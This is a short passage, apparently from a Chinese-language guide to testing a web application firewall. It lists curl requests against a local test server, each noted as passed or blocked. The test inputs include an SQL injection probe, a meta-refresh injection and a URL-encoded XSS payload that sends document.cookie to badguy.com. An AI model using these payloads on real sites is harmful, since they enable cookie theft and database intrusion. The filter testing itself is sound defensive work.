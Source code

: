 curl http://192.168.99.101/xss/                        通过
curl http://192.168.99.101/xss/?id=40/**/and/**/1=1    通过，因为配置到白名单
curl http://192.168.99.101/xss/?name=40/**/and/**/1=1  不通过，含有条件注入   SQL 经典注入方法
curl http://192.168.99.101/xss/?name=%28%29            不通过，特殊字符
curl http://192.168.99.101/xss/?term=%3Cscript%3Ewindow.open%28%22http://badguy.com?cookie=%22+document.cookie%29%3C/script%3E
                                                   不通过，参数内容含脚本注入
curl http://192.168.99.101/xss/?title=meta%20http-equiv=%22refresh%22%20content=%220;%22